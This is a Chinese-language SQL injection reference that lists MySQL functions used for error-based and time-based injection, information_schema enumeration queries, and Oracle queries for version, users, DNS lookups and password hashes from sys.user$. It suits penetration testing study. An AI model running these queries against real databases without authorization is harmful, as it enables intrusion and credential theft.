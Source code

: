 length（) 获取长度
substring() mid（） 取出字符串
group_concat() 连接一个组的所有字符串 以逗号分隔每一条数据
updatexml()、extractvalue() 用于报错注入
sleep（）  休眠

猜数据库 select schema_name from information_schema.schemata
猜某库的数据表 select table_name from information_schema.tables where table_schema=’xxxxx’
猜某表的所有列 Select column_name from information_schema.columns where table_name=’xxxxx’
获取某列的内容 Select xx_column from xx_table

列出所有的数据库
select group_concat(schema_name) from information_schema.schemata

列出某个库当中所有的表
select group_concat(table_name) from information_schema.tables where table_schema='xxxxx'

列出当前数据库表名
select group_concat(table_name) from information_schema.tables where table_schema=DATABASE()
代码语言：javascript
复制
Oracle
解析IP
select utl_inaddr.get_host_address('google.com') from dual;

获取本机IP地址
select utl_inaddr.get_host_address from dual;

根据IP地址反向解析主机名
select utl_inaddr.get_host_name('*.*.*.*') from dual;

-- 获取系统信息
select banner from v$version where rownum=1 ; -- oracle versi
--获取用户信息
select user from dual; -- current user
select username from user_users; -- current user
select username from all_users; -- all user , the current user can see...
select username from dba_users; -- all user , need pris

-- 获取密码hash
select name, password, astatus from sys.user$; -- password hash <=10g , need privs
select name, password, spare4 from sys.user$; -- password has 11g , need privs
-- 数据库
select global_name from global_name; -- current database
select sys.database_name from dual; -- current database
select name from v$database; -- current database name , need privs
select instance_name from v$instance; -- current database name , need privs

-- 模式
select distinct owner from all_tables; -- all schema

-- 表
select table_name from all_tables where owner='xxx'; -- all table name

-- 列
select owner,table_name,column_name from all_tab_columns where table_name='xxx';
select owner,table_name,column_name from all_tab_cols where table_name='xxx';
通过数据库特性和报错信息，基本可以确定目标数据库类型。
